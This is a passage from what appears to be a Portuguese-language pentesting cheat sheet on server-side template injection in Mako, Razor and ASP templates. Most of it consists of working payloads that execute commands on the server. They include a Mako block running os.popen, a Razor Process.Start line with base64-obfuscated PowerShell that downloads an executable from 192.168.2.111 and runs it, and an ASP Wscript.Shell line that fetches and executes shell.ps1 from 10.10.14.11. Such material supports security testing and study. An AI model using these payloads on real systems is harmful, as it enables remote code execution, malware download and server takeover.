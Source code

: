 {% content-ref url="jinja2-ssti.md" %}
[jinja2-ssti.md](jinja2-ssti.md)
{% endcontent-ref %}

### Mako (Python)
```python
<%
import os
x=os.popen('id').read()
%>
${x}
```
### Razor (.Net)

* `@(2+2) <= Sucesso`
* `@() <= Sucesso`
* `@("{{code}}") <= Sucesso`
* `@ <=Sucesso`
* `@{} <= ERRO!`
* `@{ <= ERRO!`
* `@(1+2)`
* `@( //C#Code )`
* `@System.Diagnostics.Process.Start("cmd.exe","/c echo RCE > C:/Windows/Tasks/test.txt");`
*   `@System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");`

O método `System.Diagnostics.Process.Start` do .NET pode ser usado para iniciar qualquer processo no servidor e, assim, criar um webshell. Você pode encontrar um exemplo de aplicativo web vulnerável em [https://github.com/cnotin/RazorVulnerableApp](https://github.com/cnotin/RazorVulnerableApp)

**Mais informações**

* [https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/](https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-\(SSTI\)-in-ASP.NET-Razor/)
* [https://www.schtech.co.uk/razor-pages-ssti-rce/](https://www.schtech.co.uk/razor-pages-ssti-rce/)

### ASP

* `<%= 7*7 %>` = 49
* `<%= "foo" %>` = foo
* `<%= foo %>` = Nada
* `<%= response.write(date()) %>` = \<Data>
```bash
<%= CreateObject("Wscript.Shell").exec("powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/shell.ps1')").StdOut.ReadAll() %>
```
**Mais Informações**

* [https://www.w3schools.com/asp/asp_examples.asp](https://www.w3schools.com/asp/asp_examples.asp)
